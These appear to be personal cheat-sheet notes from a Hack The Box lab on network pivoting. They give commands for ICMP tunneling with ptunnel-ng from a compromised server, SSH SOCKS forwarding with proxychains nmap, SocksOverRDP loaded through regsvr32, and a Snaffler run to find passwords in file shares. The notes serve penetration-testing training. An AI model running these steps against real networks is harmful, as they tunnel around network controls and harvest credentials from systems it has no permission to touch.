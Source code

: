 
# <span style="color:#9fef00">  ICMP Tunneling with SOCKS</span>

## Setting Up & Using ptunnel-ng


```shell
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22 # On compromised server
```

```shell
Sauuron@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22  # On attack host
```

```shell
Sauuron@htb[/htb]$ ssh -p2222 -lubuntu 127.0.0.1
```

```shell
Sauuron@htb[/htb]$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```

```shell
Sauuron@htb[/htb]$ proxychains nmap -sV -sT 172.16.5.19 -p3389
```


# <span style="color:#9fef00"> RDP and SOCKS Tunneling with SocksOverRDP</span>

1. [SocksOverRDP x64 Binaries](https://github.com/nccgroup/SocksOverRDP/releases)
2. [Proxifier Portable Binary](https://www.proxifier.com/download/#win-tab)


#### Loading SocksOverRDP.dll using regsvr32.exe

```shell
C:\Users\htb-student\Desktop\SocksOverRDP-x64> regsvr32.exe SocksOverRDP-Plugin.dll
```

1. Execute SocksOverRDP-Plugin.exe on Remote .
2. Open Proxifier Portable .
3. Check if host is listenning on 127.0.0.1:1080 .
1. Configure proxy "127.0.0.1:1080" SOCKS5 .


## <span style="color :yellow"> Snaffler </span>

##### Find passwords, configs in shares

```bash
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```

